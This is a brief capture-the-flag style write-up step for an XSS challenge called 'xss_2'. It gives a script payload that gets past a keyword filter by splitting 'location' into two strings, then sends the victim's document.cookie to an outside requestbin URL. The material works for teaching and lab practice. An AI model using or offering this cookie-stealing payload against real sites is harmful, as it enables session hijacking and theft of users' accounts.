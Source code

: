 # xss_2 - Injectable Body (no `img`, `src` or `location`, case insensitive)
- Create request bin as in xss_1.
- Construct payload avoiding filtered words, `<script>document['locat'+'ion']="http://requestbin.fullcontact.com/18kxbln1?c="+document.cookie;</script>`
![](https://d2mxuefqeaa7sj.cloudfront.net/s_D1CF04A7F2975FBE28B89C00E052CDE16A28AD0D6622A39C029738E493BE6857_1528361462591_Screenshot+2018-06-07+01.50.32.png)

